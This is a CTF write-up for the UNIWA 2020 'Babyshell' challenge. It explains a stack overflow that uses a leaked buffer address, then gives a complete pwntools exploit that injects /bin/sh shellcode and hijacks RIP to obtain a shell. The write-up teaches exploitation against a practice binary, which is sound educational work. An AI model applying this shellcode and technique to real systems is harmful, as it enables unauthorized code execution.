







# Babyshell - UNIWA 2020 CTF

This is a simple stack smashing challenge

Running the exectutable prompts us for a choice:
Pay with cash OR Enter a gift code

If we chose to pay the program will inform us that we are broke and then exit.



If we go the other route, and enter a gift code it will print the gift code as a hex value, then ask us again for some input and then exit.



That hexvalue strikes me as a leaked address or something, lets open in up with ghidra and analyze it.



We can see that after selecting option 2, a ```read()``` is called and reads 10 characters from ```stdin``` and stores them into ```gift_code```. After that it compares the string in ```gift_code``` with ```tw1nkl3tw1nkl3``` and exits if the same. Something that will never happen because the programm only reads 10 characters. 

In any case, the programm then prints the address of ```buffer``` as our gift code, reads a string into it. And then exits.

We can use that to overwrite the RIP register and redirect code execution into ```buffer``` where we would have placed a malicious shellcode.



A quick look in ```gdb``` with ```checksec``` reveals that a BOF attack is possible because the ```NX bit``` is not set and no ```Canary``` is present.


## Poking it with the stick

Firstly we need to get control of RIP. To do that i created a simple python script to create the required input for the programm.

```
#!/usr/bin/python
import sys

payload = b""

# First choice
choice_1 = b"2\n"
# 10 chars for the gift code
gift_code = b"A" * 9 + b"\n"

# long string to overwrite RIP
padd = b"A" * 8
padd += b"B" * 8
padd += b"C" * 8
padd += b"D" * 8
padd += b"E" * 8
padd += b"F" * 8
padd += b"G" * 8
padd += b"H" * 8
padd += b"I" * 8
padd += b"G" * 8
padd += b"K" * 8
padd += b"\n"

payload += choice_1 + gift_code + padd
sys.stdout.buffer.write(payload)
```

Pipe the output into a file and then open ```babyshell``` with ```gdb```.
Do a ```disas main``` and then set a breakboint after the last ```scanf()``` using ```b * main+273```. Now we run the programm with our payload as input and observe the changes to the ```RIP``` register:



We hit the breakpoint on ```scanf()``` now if we step one instruction using ```ni```, ```scanf()``` should should grab our ```padd``` variable as input and overflow the buffer (hopefully) thus overwritting the ```RIP``` register.

Check the saved ```RIP``` using ```i f``` (info frame):



Indeed, ```RIP``` got overwritten with ```0x4A``` ("J"), that means whatever address we put in place of the 8 J's in our exploit it will act as the new ```RIP```. Since this is a PIE Executable the addresses always change, the only address we have is the ```buffer``` that gets leaked from earlier.

## Smashing the stack (for fun and profit)

What do we have up until now:

+ Control of the ```RIP``` register
+ Leaked stack address of a local variable
+ We know that the first choice has to be "2"
+ 10 Characters after that for the supposed gift code
+ A buffer we can overflow and also jump to it because we have its address

How should we proceed:

1. Our payload should start with the choice: 2
2. Enter 10 Characters to get rid of the ```read()``` call
3. Then out shellcode should be placed first into the buffer
4. Fill the buffer until we overflow
5. Smash the stack and overwrite the ```RIP`` register with the leaked address.

I'm using ```pwntools``` (```pip install pwntools```), it handles the interactive shell after we execute the shellcode and can capture data in realtime.

```
#!/usr/bin/python
from pwn import *

LOCAL = True
# 64-bit cablable shellcode from: 
# https://www.exploit-db.com/exploits/42179
shellcode = b"\x50\x48\x31\xf6\x56\x48\xbf\x2f\x62"
shellcode += b"\x69\x6e\x2f\x2f\x73\x68\x57\x54"
shellcode += b"\x5f\x6a\x3b\x58\x99\x0f\x05"

# After the choice and the read call we need 72 character until we overflow 
# the buffer
stack_len = 72

if LOCAL:
    p = process("./babyshell")
else:
    p = remote("ctf.uniwa.gr",31468)


p.recvuntil('>')
# send our choice
p.sendline("2")
p.recvuntil('>')
# send 10 characters
p.sendline(b"a" * 9)
# flush the buffer
p.recvuntil('[')
# grab the leaked address and convert it into an integer
buffer = int(p.recvuntil(']', drop=True)[2:].decode(),16)
log.info(f"Leaked buffer address: [{hex(buffer)}]")
# our payload is shellcode + overflow padding + the leaked address
payload = shellcode + (b"a" * (stack_len - len(shellcode))) + p64(buffer)

# send the payload
p.sendline(payload)
# switch to an interactive shell
p.interactive()
```

We got shell:


